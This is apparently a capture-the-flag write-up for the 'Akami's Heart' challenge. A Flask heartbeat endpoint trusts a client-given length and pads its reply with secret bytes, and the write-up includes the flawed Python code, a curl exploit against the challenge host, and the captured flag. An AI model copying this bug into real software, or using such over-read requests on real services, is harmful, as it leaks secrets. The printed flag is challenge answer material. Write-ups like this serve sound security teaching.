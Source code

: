 # Akami’s Heart

<img width="787" height="333" alt="Screenshot 2025-09-15 120024" src="https://github.com/user-attachments/assets/fce1f475-f0de-404b-8364-76c7ee4a7f4d" />

## Challenge

<img width="791" height="614" alt="Screenshot 2025-09-15 120250" src="https://github.com/user-attachments/assets/6da94418-e2b9-4f65-a8b2-abf3d54e0dba" />

A Flask app exposes `POST /heartbeat` that echoes your JSON:
```json
{"payload": "hi", "length": 5}
```

It always returns exactly length bytes. If your payload is shorter, it pads with a secret buffer `secret_blob`. That buffer is:

512 random bytes followed by the contents of `/flag.txt`

Code snippet: 

```python
# secret buffer = random junk + flag
secret_blob = secrets.token_bytes(512)
if os.path.exists("/flag.txt"):
    with open("/flag.txt", "rb") as f:
        secret_blob += f.read()

# heartbeat endpoint
data = request.get_json(force=True, silent=True)
payload_bytes = (data.get("payload", "")).encode()
length = int(data.get("length", 0))

extra_needed = length - len(payload_bytes)
if extra_needed <= 0:
    resp = payload_bytes[:length]
else:
    # BUG: trusts client `length`, pads with secret data
    resp = payload_bytes + secret_blob[:extra_needed]
return make_response(resp, 200, {"Content-Type": "application/octet-stream"})
```

## Solution
Exploit the trusted `length`: send a tiny (or empty) `payload` with a large `length`.
The server pads with `secret_blob`, and after the first 512 random bytes, the flag appears.

Notes:

- Any `length > 512 + len(payload)` works (e.g., 1024, 2048, 4096, 8192).
- Filter output for keywords like `GCTF`, `flag`, `ctf`.

```bash
curl -s http://188.166.183.187:34886/heartbeat -H "Content-Type: application/json" -d '{"payload":"","length":8192}' | strings | grep -iE "flag|ctf|gctf"
```

## Flag

<img width="1136" height="94" alt="image" src="https://github.com/user-attachments/assets/4a5f84a9-c93e-495f-92c6-20dbd69e0104" />

```flag
GCTF25{aK4mI_H3ARTY_tl$SU3_saD_so_$AD_c1737cad162e}
```




